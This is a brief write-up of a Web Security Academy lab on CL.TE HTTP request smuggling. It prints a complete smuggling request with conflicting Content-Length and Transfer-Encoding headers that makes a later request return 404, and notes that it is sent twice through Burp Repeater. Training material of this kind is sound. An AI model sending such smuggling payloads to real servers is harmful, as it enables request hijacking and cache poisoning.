



# Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

> Lab Objective: smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

- Firstly you need to construct a CL.TE Payload to `/`, which is:

```http
POST / HTTP/1.1
Host: 0a9f000704cc4a9480598a9b00fa0094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

- Issue this request twice through Burp Repeater, the second request will receive a `404 Not Found` Response.

  - Response to first issued request:
    
  - Response to second issued request:
    

- The Lab is solved.
  

---
